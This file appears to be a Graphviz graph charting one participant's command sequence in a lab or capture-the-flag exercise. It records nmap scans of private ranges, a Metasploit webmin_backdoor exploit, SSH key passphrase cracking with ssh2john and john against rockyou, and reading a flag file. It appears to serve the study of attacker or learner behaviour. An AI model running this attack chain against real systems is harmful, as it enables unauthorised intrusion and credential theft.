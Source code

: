 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 V0 "]
	3 [label="ls A10 "]
	5 [label="ls A10 "]
	11 [label="msfconsole M2 "]
	13 [label="msfconsole V2 "]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	20 [label="set LHOST 192.168.131.85 V6 "]
	21 [label="exploit V8 "]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole V2 "]
	32 [label="use unix/webapp/webmin_backdoor V4 "]
	33 [label="set LHOST 192.168.131.85 V6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 V6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit V8 "]
	39 [label="show options V5 "]
	41 [label="exploit V8 "]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt V16 "]
	60 [label="john --incremental sshjohn.txt V16 "]
	61 [label="ls A10 "]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	67 [label="ls A10 "]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 41 [constraint=false]
	41 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
